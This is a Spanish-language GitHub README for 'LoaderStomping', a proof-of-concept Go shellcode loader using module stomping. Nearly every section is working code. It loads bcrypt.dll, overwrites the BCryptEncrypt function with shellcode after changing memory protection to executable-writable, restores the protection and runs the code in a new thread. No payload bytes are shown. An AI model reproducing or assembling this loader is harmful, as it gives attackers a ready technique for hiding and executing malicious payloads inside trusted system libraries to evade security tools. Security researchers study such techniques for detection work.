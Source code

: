 # LoaderStomping

<p align="center">
  <img src="assets/logo.jpg">

</p>

## Introducción

LoaderStomping es un proyecto de prueba de concepto que demuestra la técnica de module stomping para la inyección de código en una función específica de una DLL de Windows (bcrypt.dll) usando Go. Este proyecto aprovecha las llamadas a la API de Windows a bajo nivel para cambiar la protección de memoria, escribir shellcode y ejecutarlo creando un nuevo hilo.
## Cargando la Librería

El siguiente código carga la librería bcrypt.dll:

```
lib, err := syscall.LoadLibrary("C:\\Windows\\System32\\bcrypt.dll")
if err != nil {
fmt.Println("Failed to load library:", err)
return
}
fmt.Printf("Address of library bcrypt.dll : 0x%X\n", uintptr(lib))
```
<img src="assets/img_1.png">


## Obteniendo la Dirección de la Función

Se obtiene la dirección de la función BCryptEncrypt:

```
funcAddress, err := syscall.GetProcAddress(lib, "BCryptEncrypt")
if err != nil {
log.Fatal("Failed to get function address:", err)
}
fmt.Printf("Address of BCryptEncrypt function : 0x%X\n", funcAddress)
```

## Cambiando la Protección de Memoria

Se cambia la protección de memoria antes de escribir el shellcode:

```
var oldProtect uint32

ret, _, err := virtualProtect.Call(funcAddress, uintptr(len(shellcode)), syscall.PAGE_EXECUTE_READWRITE, uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to change memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection changed successfully.", colorReset)
fmt.Printf("Old protection: 0x%X\n", oldProtect)
printShellcode(shellcode)
```



## Escribiendo el Shellcode

El shellcode se escribe en la función BCryptEncrypt:

```
copyMemory(funcAddress, shellcode)
fmt.Println(colorGreen, "Shellcode written to BCryptEncrypt function successfully.", colorReset)
```


## Restaurando la Protección de Memoria

La protección de memoria se restaura a su estado original:
```
ret, _, err = virtualProtect.Call(funcAddress, uintptr(len(shellcode)), uintptr(oldProtect), uintptr(unsafe.Pointer(&oldProtect)))
if ret == 0 {
fmt.Println(colorRed, "Failed to restore memory protection:", err, colorReset)
return
}
fmt.Println(colorGreen, "Memory protection restored successfully.", colorReset)
fmt.Printf("Restored protection: 0x%X\n", oldProtect)
```

## Creando un Nuevo Hilo

Se crea un nuevo hilo para ejecutar el shellcode:
```
threadHandle, _, err := createThread.Call(0, uintptr(len(shellcode)), funcAddress, 0, 0, 0)
if threadHandle == 0 {
fmt.Println(colorRed, "Failed to create thread:", err, colorReset)
return
}
fmt.Println(colorGreen, "Thread created successfully.", colorReset)
fmt.Printf("Thread handle: 0x%X\n", threadHandle)
fmt.Println(colorYellow, "Inyect Success [+]", colorReset)
fmt.Scanln()
```
<img src="assets/img_3.png">

# Funciones Auxiliares
## copyMemory

Esta función copia el shellcode en la memoria destino:

```
func copyMemory(dest uintptr, src []byte) {
for i, b := range src {
*(*byte)(unsafe.Pointer(dest + uintptr(i))) = b
}
}

```


## printShellcode

Esta función imprime el shellcode en formato hexadecimal:

```
func printShellcode(shellcode []byte) {
	fmt.Println("Shellcode:")
	for i := 0; i < len(shellcode); i += 16 {
		end := i + 16
		if end > len(shellcode) {
			end = len(shellcode)
		}
		offset := fmt.Sprintf("%08X", i)
		bytes := hex.EncodeToString(shellcode[i:end])
		fmt.Printf("%s  %s\n", offset, bytes)
	}
}




```

<img src="assets/img.png">